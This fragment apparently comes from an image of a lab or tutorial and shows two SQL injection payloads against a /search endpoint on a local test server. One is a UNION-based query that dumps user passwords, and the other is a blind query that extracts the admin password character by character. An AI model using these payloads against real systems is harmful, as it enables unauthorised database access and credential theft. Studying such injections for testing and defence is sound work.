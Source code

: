 # UNION-based:

GET /search?user=%%27%20UNION%20SELECT%201,password,2%20FROM%20users-- HTTP/1.1
Host: 127.0.0.1:5000

# Blind: Extract the admin's password 1 character at a time

GET /search?user=<@urlencode>' AND (SELECT substr(password, 1, 1) FROM users WHERE username='admin')='p' -- </@urlencode> HTTP/1.1
Host: localhost:5000